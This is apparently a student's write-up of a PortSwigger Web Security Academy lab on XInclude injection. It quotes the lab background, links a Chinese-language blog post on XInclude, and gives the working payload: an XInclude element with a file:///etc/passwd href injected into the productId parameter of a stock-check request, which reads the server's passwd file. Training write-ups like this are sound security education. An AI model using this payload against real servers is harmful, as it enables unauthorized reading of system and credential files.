```yaml
---
title: 'Lab: Exploiting `XInclude` to retrieve files'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: Exploiting `XInclude` to retrieve files
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack. 
* Goal:  To solve the lab, inject an `XInclude` statement to retrieve the contents of the /etc/passwd file. 
* Hint: By default, `XInclude` will try to parse the included document as XML. Since /etc/passwd isn't valid XML, you will need to add an extra attribute to the `XInclude` directive to change this behavior. 

## Background
> XInclude is a part of the XML specification that allows an XML document to be built from sub documents You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server side XML document
> 
> To perform an XInclude attack you need to reference the XInclude namespace and provide the path to the file that you wish to include
>
>For example:
>    ```xml!
>    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
>    <xi:include parse="text" href="file:///etc/passwd"/></foo>
>    ```

---
[淺析xml之xinclude & xslt](https://lonelysec.com/%E6%B7%BA%E6%9E%90xml%E4%B9%8Bxinclude-xslt/)
>xinclude可以理解為xml include熟悉編譯腳本語言的一定熟知，像php的include，python和java的import都是可以進行檔案包含的。

## Recon
In this lab, the package did not contain the xml format data so I can't control DTD to launch a classic XXE.
Therefore, we can use xinclude?
![](https://i.imgur.com/X4AUgv9.png)

## Exp
Just use the payload at background section and replace `productID`'s data to exploited payload.
$\to$
```xml!
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
:::spoiler Success Screenshot
![](https://i.imgur.com/k87rQpi.png)

---
![](https://i.imgur.com/J8W0JPF.png)

:::

## Reference